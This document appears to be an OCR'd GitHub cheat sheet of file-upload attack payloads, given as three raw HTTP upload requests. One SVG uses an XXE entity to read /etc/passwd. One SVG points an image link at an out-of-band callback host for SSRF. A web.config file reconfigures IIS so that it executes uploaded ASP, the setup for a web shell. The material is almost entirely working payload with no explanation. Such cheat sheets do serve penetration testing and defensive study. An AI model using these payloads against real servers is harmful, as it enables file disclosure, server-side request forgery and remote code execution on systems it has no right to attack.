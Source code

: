 ```
POST /upload HTTP/1.1
Host: website.com
Content-Type: multipart/form-data; boundary=-----------------------------4829104394923874193918493216

-----------------------------4829104394923874193918493216
Content-Disposition: form-data; name="avatar"; filename="xxe.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
-----------------------------4829104394923874193918493216
```

```
POST /upload HTTP/1.1
Host: website.com
Content-Type: multipart/form-data; boundary=-----------------------------4829104394923874193918493216

-----------------------------4829104394923874193918493216
Content-Disposition: form-data; name="avatar"; filename="ssrf.svg"
Content-Type: image/svg+xml

<svg width="200" height="200"
  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="{interactsh}" height="200" width="200"/>
</svg>
-----------------------------4829104394923874193918493216
```

#### Config Extention Allowed - RCE
```
POST /upload HTTP/1.1
Host: website.com
Content-Type: multipart/form-data; boundary=-----------------------------4829104394923874193918493216

-----------------------------4829104394923874193918493216
Content-Disposition: form-data; name="avatar"; filename="webshell.config"
Content-Type: application/octet-stream

<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
```